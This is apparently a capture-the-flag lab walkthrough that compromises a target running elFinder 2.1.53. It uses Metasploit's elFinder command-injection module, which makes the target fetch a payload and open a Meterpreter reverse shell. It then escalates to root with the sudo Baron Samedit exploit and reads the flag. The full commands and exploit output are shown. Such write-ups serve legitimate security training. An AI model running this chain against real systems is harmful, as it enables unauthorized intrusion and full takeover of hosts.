


## Sessions & Jobs

1. open an internet browser and go to the target ip address, then view page source.

<p align="center">
  
</p>

<p align="center">
  
</p>

the target is running elFinder 2.1.53. after some research, this specific version has rce vulnerabilities through php.

2. open msfconsole.

```
msfconsole
```

3. search for an elfinder exploit.

```
msf > search elfinder

msf > use exploit/linux/http/elfinder_archive_cmd_injection
```

4. set required settings.

```
msf exploit(linux/http/elfinder_archive_cmd_injection) > set LHOST 10.10.14.205
LHOST => 10.10.14.205
msf exploit(linux/http/elfinder_archive_cmd_injection) > set RHOSTS 10.129.246.179
RHOSTS => 10.129.246.179
```

5. run the exploit.

```
msf exploit(linux/http/elfinder_archive_cmd_injection) > run
```

output:
```
[*] Started reverse TCP handler on 10.10.14.205:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. elFinder running version 2.1.53
[*] Uploading file pVrumW.txt to elFinder
[+] Text file was successfully uploaded!
[*] Attempting to create archive kcPTZVrspW.zip
[+] Archive was successfully created!
[*] Using URL: http://10.10.14.205:8080/JX5ZRsdQ9qcGTy6
[*] Client 10.129.246.179 (Wget/1.20.3 (linux-gnu)) requested /JX5ZRsdQ9qcGTy6
[*] Sending payload to 10.129.246.179 (Wget/1.20.3 (linux-gnu))
[*] Command Stager progress -  53.85% done (63/117 bytes)
[*] Command Stager progress -  72.65% done (85/117 bytes)
[*] Sending stage (1079144 bytes) to 10.129.246.179
[+] Deleted pVrumW.txt
[+] Deleted kcPTZVrspW.zip
[*] Meterpreter session 1 opened (10.10.14.205:4444 -> 10.129.246.179:36904) at 2026-11-08 19:15:43 -0500
[*] Command Stager progress -  83.76% done (98/117 bytes)
[*] Command Stager progress - 100.00% done (117/117 bytes)
[*] Server stopped.
```

6. obtain shell.

```
meterpreter > shell
```

7. get username.

```
whoami
```

8. get sudo version.

```
sudo -V
```

output:
```
Sudo version 1.8.31
```

9. background the session.

```
exit

meterpreter > background
```

10. search for a sudo exploit.

```
msf > search sudo

msf > use exploit/linux/local/sudo_baron_samedit
```

11. set required settings.

```
msf exploit(linux/local/sudo_baron_samedit) > set SESSION 1
SESSION => 1
msf exploit(linux/local/sudo_baron_samedit) > set LHOST 10.10.14.205
LHOST => 10.10.14.205
```

12. run the exploit.

```
msf exploit(linux/local/sudo_baron_samedit) > run
```

13. confirm root.

```
whoami
```

```
root
```

14. find `flag.txt` starting at root.

```
find / -type f -name "flag.txt" 2>/dev/null
```

output:
```
/root/flag.txt
```

15. read the flag.

```
cat /root/flag.txt
```